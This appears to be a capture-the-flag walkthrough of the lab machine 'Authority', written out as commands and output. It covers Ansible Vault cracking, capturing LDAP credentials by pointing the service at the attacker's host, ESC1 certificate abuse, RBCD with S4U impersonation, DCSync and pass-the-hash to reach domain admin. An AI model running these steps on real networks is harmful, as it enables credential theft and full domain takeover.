

# Attack Chain

```
Guest SMB → read `Development` share → loot Ansible Vault (PWM main.yml)
└─► ansible2john + john → vault pw → ansible-vault decrypt → PWM admin creds
    └─► PWM Config Editor (8443) → LDAP downgrade ldaps→ldap → Responder
        └─► svc_ldap cleartext → valid domain user (WinRM → user.txt)
            └─► certipy → CorpVPN vulnerable ESC1
                └─► add machine `hacked$` → request cert as Administrator
                    └─► PKINIT dead → Pass-the-Cert → write RBCD on `AUTHORITY$`
                        └─► getST S4U → TGS impersonate Administrator
                            └─► DCSync → NT hash → PtH evil-winrm → root.txt
```

# Summary

- [Enumeration](#enumeration)
	- [nmap](#nmap)
	- [SMB](#smb)
- [Development Share](#development-share)
	- [Retrieve ANSIBLE_VAULT hashes](#retrieve-ansible_vault-hashes)
	- [Crack vault password](#crack-vault-password)
	- [Decrypt hashes with vault password](#decrypt-hashes-with-vault-password)
- [Sniff LDAP credentials](#sniff-ldap-credentials)
	- [Access Editor](#access-editor)
	- [Add LDAP URL](#add-ldap-url)
	- [Catch the credentials - Responder](#catch-the-credentials---responder)
- [BloodHound](#bloodhound)
- [AD CS](#ad-cs)
	- [Create a new computer](#create-a-new-computer)
	- [ESC1 Attack](#esc1-attack)
	- [PassTheCert](#passthecert)
	- [DCSync](#dcsync)
	- [Shell as administrator](#shell-as-administrator)

---
# Enumeration

### nmap

Let's scan the target.

```bash
nmap -sVC 10.129.229.56 -oA nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2026-06-30 11:27 CEST
Nmap scan report for 10.129.229.56
Host is up (0.041s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-30 13:27:40Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-06-30T13:28:31+00:00; +4h00m02s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-06-30T13:28:31+00:00; +4h00m02s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-06-30T13:28:31+00:00; +4h00m02s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-06-30T13:28:31+00:00; +4h00m02s from scanner time.
8443/tcp open  ssl/https-alt
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
| fingerprint-strings:
|   FourOhFourRequest, GetRequest:
|     HTTP/1.1 200
|     Content-Type: text/html;charset=ISO-8859-1
|     Content-Length: 82
|     Date: Tue, 30 Jun 2026 13:27:47 GMT
|     Connection: close
|     <html><head><meta http-equiv="refresh" content="0;URL='/pwm'"/></head></html>
|   HTTPOptions:
|     HTTP/1.1 200
|     Allow: GET, HEAD, POST, OPTIONS
|     Content-Length: 0
|     Date: Tue, 30 Jun 2026 13:27:47 GMT
|     Connection: close
|   RTSPRequest:
|     HTTP/1.1 400
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1936
|     Date: Tue, 30 Jun 2026 13:27:54 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400
|_    Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in the HTTP protocol [RTSP&#47;1.00x0d0x0a0x0d0x0a...]</p><p><b>Description</b> The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2026-06-28T13:24:37
|_Not valid after:  2028-06-30T01:03:01
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint 
```

> [!NOTE]
> **Observations**
> - Target is an Active Directory
> -  Port 8443 seems promising

### SMB

Let's see if null sessions are enabled.

```bash
nxc smb 10.129.*.* -u '' -p ''

SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\:

```

It is, so let's try to list the shares.

```bash
nxc smb 10.129.*.* -u '' -p '' --shares

SMB         10.129.*.*   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.*.*   445    AUTHORITY        [+] authority.htb\:
SMB         10.129.*.*   445    AUTHORITY        [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

We don't have access. Let's try with the built-in guest account.

```bash
nxc smb 10.129.229.56 -u 'guest' -p '' --shares

SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\guest:
SMB         10.129.229.56   445    AUTHORITY        [*] Enumerated shares
SMB         10.129.229.56   445    AUTHORITY        Share           Permissions     Remark
SMB         10.129.229.56   445    AUTHORITY        -----           -----------     ------
SMB         10.129.229.56   445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.129.229.56   445    AUTHORITY        C$                              Default share
SMB         10.129.229.56   445    AUTHORITY        Department Shares
SMB         10.129.229.56   445    AUTHORITY        Development     READ
SMB         10.129.229.56   445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.129.229.56   445    AUTHORITY        NETLOGON                        Logon server share
SMB         10.129.229.56   445    AUTHORITY        SYSVOL                          Logon server share
```

We can list shares with the guest account, and we have read access to the uncommon share `Development`.

# Development Share

Let's inspect the share.
### Retrieve ANSIBLE_VAULT hashes

First we need to connect to the share.

```bash
smbclientng -d "authority.htb" -u "guest" -p "" --host "authority.authority.htb"

[\\authority.authority.htb\]> use development
```

Enumerating the share reveals some **ansible** configuration. Under the **PWM** folder we can retrieve 3 ansible vault hashes.

There are also configuration files for tomcat but since the instance is not exposed, it's not valuable.

```bash
[\\authority.authority.htb\Development\Automation\Ansible\PWM\defaults\]> cat main.yml
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239
6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033
6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
63303831303534303266356462373731393561313363313038376166336536666232626461653630
3437333035366235613437373733316635313530326639330a643034623530623439616136363563
34646237336164356438383034623462323531316333623135383134656263663266653938333334
3238343230333633350a646664396565633037333431626163306531336336326665316430613566
3764
```

### Crack vault password

Lets put the hashes into a file and remove any whitespace so it matches this format.

```
cat ldap_admin_password.vault

$ANSIBLE_VAULT;1.1;AES256
63303831303534303266356462373731393561313363313038376166336536666232626461653630
3437333035366235613437373733316635313530326639330a643034623530623439616136363563
34646237336164356438383034623462323531316333623135383134656263663266653938333334
3238343230333633350a646664396565633037333431626163306531336336326665316430613566
3764
```

Then we use `ansible2john.py` to extract the vault's password hash.

```bash
ansible2john.py ldap_admin_password.vault > ldap_admin_password_hash.txt
```

And we crack it using `john`.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ldap_admin_password_hash.txt

<SNIP>

!@#$%^&*         (vault)

<SNIP>

```

> [!TIP]
> **Ansible vault password retrieved**
> `!@#$%^&*`

Repeating the operation on the 2 remaining hashes will retrieve the same password we cracked.

### Decrypt hashes with vault password

Now that we have the vault password, we can decrypt the secrets with the `ansible-vault` cli.

```bash
ansible-vault decrypt ldap_admin_password.vault
Vault password:!@#$%^&*
Decryption successful
```

The decryption succeeded, and the cleartext value is written back into the file.

With this, we will get the following secrets.

```
ldap_admin_password.vault : DevT3st@123
```

```
pwm_admin_password.vault : pWm_@dm!N_!23
```

```
svc_pwm : pwm_admin_login.vault                                                
```

### PWM login - Port 8443

When going on port 8443, we see that the website runs the application **PWM**. If we look at the decrypted secrets, we have a username and a password.

By going to Editor and filling the password `pWm_@dm!N_!23`, we can indeed log in the application.


# Sniff LDAP credentials

Now that we have admin access to the application, let's see what we can do.
### Access Editor

Let's access the **Configuration Editor**.



### Add LDAP URL

In the editor, we have the capability to add an LDAP URL. If we point it to our machine, we can catch the credentials of the user running the LDAP service with `Responder` or `nc`.


Let's click on **Add Value** and add our machine inside.

```
ldap://10.10.*.*:389
```

We have to downgrade LDAP to port 389 so the request is not encrypted with TLS, allowing us to retrieve clear text credentials.

### Catch the credentials - Responder

After starting `Responder`, we click on **Test LDAP Profile** at the top of the page, and we should get the following:

```bash
Responder -I tun0
[+] Listening for events...

[LDAP] Cleartext Client   : 10.129.*.*
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

> [!TIP]
> **Cleartext Credentials obtained**
> `svc_ldap` : `lDaP_1n_th3_cle4r!`

We can validate these credentials using `NetExec`.

```bash
nxc smb authority.authority.htb -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'

SMB   10.129.*.*   445  AUTHORITY  [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
```

# BloodHound

We have a valid user on the domain, which means we can collect data from the target and look for a path to escalate our privileges.

```bash
bloodhound.py --zip -c All -d "authority.htb" -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -ns 10.129.229.56
```

However, little can be exploited, except that svc_ldap can connect to the target over WinRM and retrieve the user flag.

# AD CS

Since we didn't find a path in **Bloodhound**, let's inspect the certificates of the target.
### Vulnerable Template Enumeration

Let's search for potential vulnerable certificates.

```bash
certipy find -enabled -u "svc_ldap@authority.htb" -p 'lDaP_1n_th3_cle4r!' -stdout -vulnerable

<SNIP>

Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-03-24T23:48:09+00:00
    Template Last Modified              : 2023-03-24T23:48:11+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Full Control Principals         : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Property Enroll           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
    [+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

The template `CorpVPN` is vulnerable to ESC1 allowing us to impersonate any user we want and retrieve its certificate.

Although `svc_ldap` can't request the certificate, `AUTHORITY.HTB\Domain Computers` can.

Since any user can add up to 10 computers to the domain by default, we can add an evil computer and use its machine account to impersonate another user.

### Create a new computer

Let's create an evil computer with `bloodyAD`.

```bash
bloodyAD -H "authority.authority.htb" -d "authority.htb" -u "svc_ldap" -p 'lDaP_1n_th3_cle4r!' add computer hacked 'Hacked123!'
[+] hacked$ created
```

The machine account of `hacked` has been created.
### ESC1 Attack

We can now perform the ESC1 attack, and request a certificate for `administrator`. We must specify its SID, which can be obtained from our **BloodHound** graph.

```bash
certipy req -u "hacked$" -p 'Hacked123!' -dc-ip 10.129.229.56 -target "authority.authority.htb" -ca "AUTHORITY-CA" -template "CorpVPN" -upn 'administrator@authority.htb' -sid "S-1-5-21-622327497-3269355298-2248959698-500"

Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 3
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate object SID is 'S-1-5-21-622327497-3269355298-2248959698-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

It worked, we can now authenticate using the certificate retrieved.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.229.56                                                                                                                               Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*]     SAN URL SID: 'S-1-5-21-622327497-3269355298-2248959698-500'
[*]     Security Extension SID: 'S-1-5-21-622327497-3269355298-2248959698-500'
[*] Using principal: 'administrator@authority.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```

But we are facing the error `KDC_ERR_PADATA_TYPE_NOSUPP`. This means the DC's KDC isn't configured for **PKINIT** (certificate pre-authentication), so no TGT can be issued.

### PassTheCert

To bypass this problem, we can use the tool `passthecert.py`.

First we need to convert our `.pfx` to a `.crt` and get its certificate's key.

```bash
certipy cert -pfx administrator.pfx -nokey -out administrator.crt
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Data written to 'administrator.crt'
[*] Writing certificate to 'administrator.crt'
```

```bash
certipy cert -pfx administrator.pfx -nocert -out administrator.key
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Data written to 'administrator.key'
[*] Writing private key to 'administrator.key'
```

Now, we write into the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the `AUTHORITY$` machine account, using the `administrator` certificate. 

This configures **Resource-Based Constrained Delegation** so that our machine account `hacked$` is trusted to delegate to `AUTHORITY$`. 

Concretely, `hacked$` will be able to use S4U2self/S4U2proxy to obtain a **service ticket** impersonating a privileged user for a service running on `AUTHORITY$`.

Since the resource here is the domain controller itself, that grants full compromise.

```bash
passthecert.py -action write_rbcd -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.129.229.56 -delegate-to 'AUTHORITY$' -delegate-from 'hacked$'

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] hacked$ can now impersonate users on AUTHORITY$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     hacked$   
```

We can now request a TGS on the service `cifs` for `administrator` so we will be able to dump the domain.

```bash
getST.py -spn 'cifs/authority.authority.htb' -impersonate Administrator -dc-ip 10.129.229.56 'authority.htb/hacked$:Hacked123!'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_authority.authority.htb@AUTHORITY.HTB.ccache
```

### DCSync

Let's export our ticket, and perform a DCSync on the domain to retrieve the hash of `administrator`.

```bash
export KRB5CCNAME=Administrator@cifs_authority.authority.htb@AUTHORITY.HTB.ccache
```

```bash
secretsdump -k -no-pass "authority.authority.htb" -just-dc-user administrator
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72c97be1f2c57ba5a51af2ef187969af4cf23b61b6dc444f93dd9cd1d5502a81
Administrator:aes128-cts-hmac-sha1-96:b5fb2fa35f3291a1477ca5728325029f
Administrator:des-cbc-md5:8ad3d50efed66b16
[*] Cleaning up...
```

### Shell as administrator

Let's connect to the target over **WinRM** with the credentials of `administrator` using **Pass-the-Hash** technique.

```bash
evil-winrm -i authority.authority.htb -u administrator -H 6961f422924da90a6928197429eea4ed

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

> [!TIP]
> **Machine rooted**

